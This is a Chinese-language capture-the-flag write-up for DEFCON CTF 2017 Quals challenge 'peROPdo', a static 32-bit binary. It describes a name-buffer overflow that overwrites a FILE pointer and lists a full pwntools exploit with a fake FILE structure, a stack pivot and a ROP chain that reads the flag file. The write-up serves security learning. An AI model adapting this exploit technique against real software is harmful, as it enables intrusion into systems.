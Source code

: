 ```yaml
---
title: '[DEFCON CTF 2017 Quals] peROPdo'
author: bruce30262
tags:
  - pwn
  - buffer overflow
  - ROP
  - file stream pointer overflow
  - DEFCON CTF 2017
categories:
  - write-ups
date: 2017-05-03
layout: post
---
```

## Info  
> Category: Potent Pwnables
> Author: bruce30262 @ BambooFox  

## Analyzing
32 bit ELF, **static linked & stripped**, 有開 DEP 保護

程式是個簡單的骰子程式，輸入完名字後程式會問你要骰幾個骰子，輸入一個正整數後，程式會隨機產生資料，存在 `data[i]` 裡面。之後程式會輸出 `data[i] % 6 + 1`，代表這一輪我們骰的數字。

這題有兩個漏洞:
1. 輸入名字時是用 `scanf("%s", name);` 的方式讀取，造成 `name` buffer 有 overflow 的情形 (`name`位於 data 段)  
2. 程式存資料 `data[i]` 是存在 stack 上，因此如果我們骰太多骰子的話，會造成 `data[i]` 的資料覆蓋到 return address ( stack overflow )。

## Exploit
一開始本來打算利用第二個漏洞 ( stack overflow ) 來做 exploit，不過因為 `data[i]` 的資料是隨機化的結果，我們沒辦法隨心所欲的控制 return address 的內容。

這邊在解題時犯了一個錯誤: **誤認為程式所用的隨機化函式是自行 implement 的函式**。因為 binary 被 stripped 掉的關係，加上是 static linked 的 binary，因此當時無法判斷哪些是自行 implement 的 function，哪些是 libc 內部的 function。也因為這樣，在這題浪費了大量的時間在搞 symbolic execution tool，想說可以利用這些工具來幫助我們解出想要的 return address。結果 [angr](http://angr.io/) 不會用，[Triton](https://github.com/JonathanSalwan/Triton) 跟 [manticore](https://github.com/trailofbits/manticore) 則是連跑都跑不起來，一整個慘...... 

後來就想說換個方向，試試看第一個漏洞 ( `name` 的 buffer overflow )。結果發現到說可以控到 EIP，似乎是因為在 `name` buffer 的後面存有一些 `FILE*` pointer，導致我們可以透過[偽造`FILE`](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/)結構來達到 hijack control flow 的效果。

於是透過一些動態分析，我們發現說我們可以透過一個 `call [reg+offset]` 的 gadget 來控制 EIP，且第二個參數會是 `stdout`。於是我先將程式跳至 main function 的中間:
```
mov     dword ptr [esp+4], offset name
mov     dword ptr [esp], (offset aSSSS+8) ; "%s" <--- 跳到這裡
call    scanf
mov     eax, ds:name
mov     [esp], eax
call    sub_0804baf0
mov     dword ptr [esp], offset name
call    do_main
```

會這樣跳是因為接下來程式會將 `%s` 放到第一個參數，並且呼叫 `scanf()`，讓程式執行 `scanf("%s", stdout)`，我們就可以完整的控制 `stdout` 的內容，之後就可以做更進一步的 ROP attack  

以下是我最後的 ROP chain:
* 先用 `xchg esp, eax` 將 stack migrate 至 `stdout` (此時 stdout 內容可控)
* 利用 `add esp, offset` gadget 跳過 `stdout` 結構 ( 必須跳過一些我們偽造的 data )
* 利用 gadgets 作出 open/read/write 的 syscall，將 flag 吐出來 ( 這題有擋 `execve()` )

Final exploit:
```python exp_peropdo.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "peropdo_bb53b90b35dba86353af36d3c6862621.quals.shallweplayaga.me"
PORT = 80
ELF_PATH = "./peropdo"

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    #gdb.attach(r, gdbscript=open("./ggg", "r"))
    func = 0x0806d7aa # avoid crash
    scanf = 0x08048b2a
    name = p32(scanf) + p32(func) + "\x42"*972 + p32(0x80ecdf4) + '\x00'*92  + p32(0x80ecdf8) 
    r.sendlineafter("name?", name)

    # Later the program will call scanf("%s", stdout);
    # now we can overwrite the whole stdout FILE structure

    stream = p32(0x08079824) # second gadget: add esp, 0x84....
    stream += "/home/peropdo/flag\x00" # flag path
    stream = stream.ljust(0x1c, '\0')
    stream += p32(0x804b45c) # eip, first gadget: xchg esp, eax ; ret
    stream = stream.ljust(0x48, '\0')
    stream += p32(0x080ED3E8) # pointer to null
    stream = stream.ljust(0x90, '\0')
    stream += p32(0x807982b) # third gadget: pop; ret
    stream += p32(0x80eb2a0) # fake jump table
    
    # 0x08074f2e : mov eax, 5 ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret 
    # 0x08079465 : mov ebx, eax ; mov eax, ebx ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
    pop_ebx = 0x806f322  # pop ebx;ret
    pop_eax = 0x80e3525  # pop eax;ret
    pop_ecx = 0x080e5ee1 # pop ecx ; ret 
    pop_edx = 0x0806f2fa # pop edx ; ret
    int80 = 0x806fae0    # int 0x80 ; ret 
    buf = 0x80ed000-0x100
    rop = flat(
                pop_ecx,
                0,
                pop_edx, 
                0,
                0x08074f2e, # mov eax = 5 (open), pop ebx...
                0x80eb2a4, # ptr to flag path
                [0,0,0],
                int80,              
                pop_eax,
                3, # read
                pop_ebx,
                3, #fd
                pop_ecx,
                buf,
                pop_edx,
                0x100,
                int80,
                pop_ebx,
                1, # fd,
                pop_eax,
                4, # write
                int80
              )

    r.sendline(stream + rop)
    r.interactive()
```

flag: `Thanks to Kenshoto for the inspiration! 5fbb34920c457b2e0855a174b8de3ebc`

## Note
這題解到一半時，隊友 **Isaac** 提醒說 IDA 有個東西叫 [FLIRT](https://www.hex-rays.com/products/ida/tech/flirt/index.shtml)，可以透過一些 [signature database](https://github.com/push0ebp/sig-database) 來辨別 libc 的 function，讓我們在做 reversing 時可以輕鬆一點。直到那時我才知道，程式裡面的隨機化函式其實就只是 libc 裡面的 `srand()` 和 `random()`......所以其實可以直接用暴力法把我們要跳的 return address 給爆出來......不過當時用 file stream pointer overflow 解到一半了，就沒有用這種方式解，要不然應該會快上許多。就當作是長經驗吧 Q_Q